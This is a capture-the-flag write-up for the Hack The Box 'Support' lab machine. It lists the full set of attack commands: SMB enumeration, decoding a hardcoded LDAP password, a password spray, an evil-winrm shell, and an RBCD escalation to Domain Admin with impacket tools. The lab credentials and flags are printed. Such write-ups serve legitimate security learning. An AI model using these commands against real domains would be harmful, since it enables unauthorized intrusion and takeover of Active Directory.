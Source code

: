 # 🧑‍💻 Hack The Box – Support

## 📌 Overview
- **Machine Name:** Support
- **IP Address(es):** 10.10.11.174
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** SMB / Active Directory / LDAP / Reverse Engineering / RBCD
- **Date Completed:** 2025.08.29
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/support 10.10.11.174
```

```
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 08:08:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:**

* 389/tcp → LDAP
* 139/tcp → SMB (guest access enabled)

### SMB Enumeration

```bash
nxc smb support.htb -u 'a' -p '' --shares
```

```
support-tools   READ
```

```bash
smbclient //support.htb/support-tools -U 'Guest'
```

```
UserInfo.exe.zip
```

* Discovered a readable share with an unusual application: **UserInfo.exe**.

---

## 🔍 Reverse Engineering UserInfo.exe

Decompiling revealed LDAP credentials:

```csharp
public LdapQuery()
{
    string password = Protected.getPassword();
    this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
    this.entry.AuthenticationType = AuthenticationTypes.Secure;
    this.ds = new DirectorySearcher(this.entry);
}
```

The password was obfuscated:

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

### Decoding

```py
import base64

enc = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

cipher = base64.b64decode(enc)
plain = bytes([c ^ key[i % len(key)] ^ 223 for i, c in enumerate(cipher)])

print(plain.decode())
```

Decoded password:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Credential Validation

```zsh
nxc ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

```
[+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

* Valid domain credentials obtained.

---

## 🧭 BloodHound

Collected domain data:

```zsh
rusthound-ce -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o bloodhound --ldap-filter='(objectGuid=*)' -c All
```

* Nothing interesting for `ldap` user.

---

## 🗂️ LDAP Enumeration

Custom LDAP enumeration found a suspicious `info` field:

```json
"ford.victoria": {
  "info": "Ironside47pleasure40Watchful"
}
```

* Initially appeared to be credentials for `ford.victoria`, but login attempts failed.
* Enumerated all domain users and built a wordlist.

---

## 🔑 Exploitation – Foothold

Brute-forced with known password string:

```zsh
nxc smb support.htb -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```

```
[+] support.htb\support:Ironside47pleasure40Watchful
```

### Shell Access

```zsh
evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
c2ee84b4277d7cab7ea5ae7d9bc1d5bc
```

* **Result:** User shell obtained.

---

## 🚀 Privilege Escalation

### BloodHound Enumeration

* `support` user → member of **SHARED SUPPORT ACCOUNTS** group
* This group has **GenericAll** on `DC.SUPPORT.HTB` computer object.

![BloodHound Enumeration](ScreenShots/support-user-bloodhound.png)

### Exploit: Resource-Based Constrained Delegation (RBCD)

1. Add attacker-controlled computer:

```zsh
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host DC.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```

2. Configure delegation:

```zsh
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

3. Request TGT as Administrator:

```zsh
getST.py -spn cifs/DC.support.htb -impersonate Administrator support.htb/ATTACKERSYSTEM$:'Summer2018!' -dc-ip DC.support.htb
```

4. Pass-the-ticket with PsExec:

```zsh
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass support.htb/Administrator@DC.support.htb
```

```
C:\Users\Administrator\Desktop> type root.txt
ae1605fecb42f57a3d34817e12d24252
```


* **Result:** Full SYSTEM access (Domain Admin).

---

## 🏁 Flags

* **User.txt:** `c2ee84b4277d7cab7ea5ae7d9bc1d5bc`
* **Root.txt:** `ae1605fecb42f57a3d34817e12d24252`

---

## 🧠 Lessons Learned

* **Technical:**

  * Reverse engineering revealed hardcoded service account credentials.
  * LDAP info fields may leak sensitive data (poor OPSEC).
  * RBCD remains a powerful AD privilege escalation vector.

* **Personal:**

  * Always test leaked creds against multiple accounts.
  * Automating LDAP parsing speeds up discovery of hidden values.

* **Reusable Techniques:**

  * Decode obfuscation (base64 + XOR).
  * Use BloodHound to identify misconfigurations.
  * Exploit RBCD for Domain Admin when `GenericAll` on DC computer object.

---

